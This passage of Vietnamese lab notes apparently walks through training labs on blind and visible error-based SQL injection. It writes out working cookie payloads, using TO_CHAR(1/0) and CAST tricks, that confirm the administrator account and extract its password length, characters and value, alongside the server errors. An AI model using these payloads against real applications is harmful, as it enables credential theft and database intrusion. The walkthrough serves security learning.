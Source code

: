 `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
⇒ "Có người dùng administrator trong bảng users không? Nếu có, hãy làm gì đó sai". Vì có lỗi, ta suy ra administrator tồn tại.
- **Bước 6: Xác định độ dài mật khẩu của administrator:**
`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
⇒ Giải thích truy vấn: "Mật khẩu của administrator dài hơn 1 ký tự không? Nếu đúng, hãy báo lỗi". Vì có lỗi nên mật khẩu dài hơn 1. Ta tiếp tục hỏi: "Dài hơn 2? 3? ...". Khi hỏi "Dài hơn 20?" mà không có lỗi, ta suy ra mật khẩu dài đúng 20 ký tự
- **Bước 8: Đoán từng ký tự của mật khẩu**
`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

1. **Lab 13: Visible error-based SQL injection**
- Kết quả của truy vấn SQL không được hiển thị trực tiếp. Tuy nhiên, nếu truy vấn có lỗi, máy chủ sẽ trả về thông báo lỗi chi tiết (verbose error message), và ta có thể lợi dụng thông báo lỗi này để rò rỉ thông tin
- Thử thêm `'` ở sau TrackingId: `TrackingId=ogAZZfxtOKUELbuJ’` ⇒ Có lỗi `ERROR: unclosed string literal ... WHERE tracking_id='ogAZZfxtOKUELbuJ'’`
⇒ Truy vấn SQL gốc có dạng: `WHERE tracking_id='ogAZZfxtOKUELbuJ'`
⇒ Khi ta thêm dấu ', truy vấn trở thành `WHERE tracking_id='ogAZZfxtOKUELbuJ''`
⇒ Dấu ' thừa gây lỗi cú pháp vì nó không được đóng lại
- Thử thêm `'--`: `TrackingId=ogAZZfxtOKUELbuJ'--` ⇒ Lần này không có lỗi nữa, nghĩa là truy vấn SQL đã hợp lệ
⇒ Sau khi thêm thì phần sau `--` là comment nên bị bỏ qua, không còn lỗi
- Thử thêm một truy vấn con SELECT và ép kiểu (cast) kết quả thành số nguyên (int)
`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
⇒ `ERROR: AND condition must be a boolean expression`  (AND CAST((SELECT 1) AS int) không phải là một biểu thức đúng/sai (boolean))
⇒ Ta đang cố thêm một câu hỏi nhỏ vào truy vấn: "Lấy số 1 và biến nó thành số nguyên". Nhưng máy chủ yêu cầu điều kiện sau AND phải là một câu hỏi đúng/sai (ví dụ: 1=1). Vì CAST((SELECT 1) AS int) chỉ trả về số 1 chứ không phải câu hỏi đúng/sai, máy chủ báo lỗi
- Sửa truy vấn để tạo điều kiện đúng/sai: 
`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
⇒ Không còn lỗi, truy vấn hợp lệ
⇒ Ta đã sửa câu lệnh thành: "Lấy số 1, biến thành số nguyên, và kiểm tra xem nó có bằng 1 không". Vì 1=1 là đúng, truy vấn không báo lỗi nữa. Điều này cho thấy ta có thể chèn truy vấn SQL vào TrackingId
- Thử lấy thông tin từ bảng users: 
`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
⇒ Lỗi xuất hiện trở lại, và truy vấn bị cắt ngắn (truncated) do giới hạn ký tự
⇒ Giải thích: giả sử ta có truy vấn "Lấy tất cả tên người dùng từ bảng users". Nhưng vì giá trị cookie quá dài, máy chủ cắt bớt câu hỏi, làm hỏng cú pháp. Giới hạn ký tự này có thể do máy chủ hoặc cơ sở dữ liệu đặt ra.
- Rút ngắn cookie để tránh giới hạn ký tự: 
`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
⇒ `ERROR: query returned more than one row` (Bảng users có nhiều người dùng, nhưng CAST chỉ chấp nhận một giá trị duy nhất)
- Thêm LIMIT 1 để chỉ lấy một người dùng:
`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
⇒ `ERROR: invalid input syntax for type integer: "administrator"`
⇒ Thông báo lỗi này tiết lộ rằng người dùng đầu tiên trong bảng là administrator
⇒ Giải thích: giả sử ta có truy vấn "Chỉ lấy tên người dùng đầu tiên và biến thành số". Máy chủ trả về tên đầu tiên là administrator, nhưng không thể biến "administrator" thành số (vì nó là chữ, không phải số), nên báo lỗi. Điều này vô tình cho ta biết người dùng đầu tiên là administrator
- Sửa truy vấn để lấy password thay vì username:
`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
⇒  Giải thích: giả sử ta có truy vấn "Lấy mật khẩu của người dùng đầu tiên". Vì người dùng đầu tiên là administrator, máy chủ trả về mật khẩu của admin. Nhưng vì mật khẩu là chữ, không phải số, máy chủ lại báo lỗi, và lỗi này vô tình tiết lộ mật khẩu cho ta
